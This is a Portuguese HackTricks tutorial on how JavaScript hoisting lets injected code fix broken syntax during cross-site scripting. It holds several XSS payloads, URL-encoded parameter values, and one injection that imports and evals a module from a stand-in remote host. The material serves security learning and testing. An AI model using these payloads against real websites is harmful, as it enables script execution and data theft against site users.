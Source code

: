 # JS Hoisting

{{#include ../../banners/hacktricks-training.md}}

## Informações Básicas

Na linguagem JavaScript, um mecanismo conhecido como **Hoisting** é descrito onde declarações de variáveis, funções, classes ou imports são conceitualmente elevadas ao topo de seu escopo antes que o código seja executado. Esse processo é realizado automaticamente pelo motor JavaScript, que passa pelo script em várias etapas.

Durante a primeira etapa, o motor analisa o código para verificar erros de sintaxe e o transforma em uma árvore de sintaxe abstrata. Esta fase inclui o hoisting, um processo onde certas declarações são movidas para o topo do contexto de execução. Se a fase de análise for bem-sucedida, indicando que não há erros de sintaxe, a execução do script prossegue.

É crucial entender que:

1. O script deve estar livre de erros de sintaxe para que a execução ocorra. As regras de sintaxe devem ser estritamente seguidas.
2. A colocação do código dentro do script afeta a execução devido ao hoisting, embora o código executado possa diferir de sua representação textual.

#### Tipos de Hoisting

Com base nas informações do MDN, existem quatro tipos distintos de hoisting em JavaScript:

1. **Value Hoisting**: Permite o uso do valor de uma variável dentro de seu escopo antes de sua linha de declaração.
2. **Declaration Hoisting**: Permite referenciar uma variável dentro de seu escopo antes de sua declaração sem causar um `ReferenceError`, mas o valor da variável será `undefined`.
3. Este tipo altera o comportamento dentro de seu escopo devido à declaração da variável antes de sua linha de declaração real.
4. Os efeitos colaterais da declaração ocorrem antes que o restante do código que a contém seja avaliado.

Em detalhes, declarações de função exibem comportamento de hoisting do tipo 1. A palavra-chave `var` demonstra comportamento do tipo 2. Declarações lexicais, que incluem `let`, `const` e `class`, mostram comportamento do tipo 3. Por fim, declarações `import` são únicas na medida em que são hoisted com comportamentos tanto do tipo 1 quanto do tipo 4.

## Cenários

Portanto, se você tiver cenários onde pode **Injetar código JS após um objeto não declarado** ser usado, você poderia **corrigir a sintaxe** declarando-o (para que seu código seja executado em vez de gerar um erro):
```javascript
// The function vulnerableFunction is not defined
vulnerableFunction('test', '<INJECTION>');
// You can define it in your injection to execute JS
//Payload1: param='-alert(1)-'')%3b+function+vulnerableFunction(a,b){return+1}%3b
'-alert(1)-''); function vulnerableFunction(a,b){return 1};

//Payload2: param=test')%3bfunction+vulnerableFunction(a,b){return+1}%3balert(1)
test'); function vulnerableFunction(a,b){ return 1 };alert(1)
```

```javascript
// If a variable is not defined, you could define it in the injection
// In the following example var a is not defined
function myFunction(a,b){
return 1
};
myFunction(a, '<INJECTION>')

//Payload: param=test')%3b+var+a+%3d+1%3b+alert(1)%3b
test'); var a = 1; alert(1);
```

```javascript
// If an undeclared class is used, you cannot declare it AFTER being used
var variable = new unexploitableClass();
<INJECTION>
// But you can actually declare it as a function, being able to fix the syntax with something like:
function unexploitableClass() {
return 1;
}
alert(1);
```

```javascript
// Properties are not hoisted
// So the following examples where the 'cookie' attribute doesn´t exist
// cannot be fixed if you can only inject after that code:
test.cookie("leo", "INJECTION")
test[("cookie", "injection")]
```
## Mais Cenários
```javascript
// Undeclared var accessing to an undeclared method
x.y(1,INJECTION)
// You can inject
alert(1));function x(){}//
// And execute the allert with (the alert is resolved before it's detected that the "y" is undefined
x.y(1,alert(1));function x(){}//)
```

```javascript
// Undeclared var accessing 2 nested undeclared method
x.y.z(1,INJECTION)
// You can inject
");import {x} from "https://example.com/module.js"//
// It will be executed
x.y.z("alert(1)");import {x} from "https://example.com/module.js"//")


// The imported module:
// module.js
var x = {
y: {
z: function(param) {
eval(param);
}
}
};

export { x };
```

```javascript
// In this final scenario from https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/
// It was injected the: let config;`-alert(1)`//`
// With the goal of making in the block the var config be empty, so the return is not executed
// And the same injection was replicated in the body URL to execute an alert

try {
if (config) {
return
}
// TODO handle missing config for: https://try-to-catch.glitch.me/"+`
let config
;`-alert(1)` //`+"
} catch {
fetch("/error", {
method: "POST",
body: {
url:
"https://try-to-catch.glitch.me/" +
`
let config;` -
alert(1) -
`//` +
"",
},
})
}
```
## Referências

- [https://jlajara.gitlab.io/Javascript_Hoisting_in_XSS_Scenarios](https://jlajara.gitlab.io/Javascript_Hoisting_in_XSS_Scenarios)
- [https://developer.mozilla.org/en-US/docs/Glossary/Hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting)
- [https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/](https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/)

{{#include ../../banners/hacktricks-training.md}}
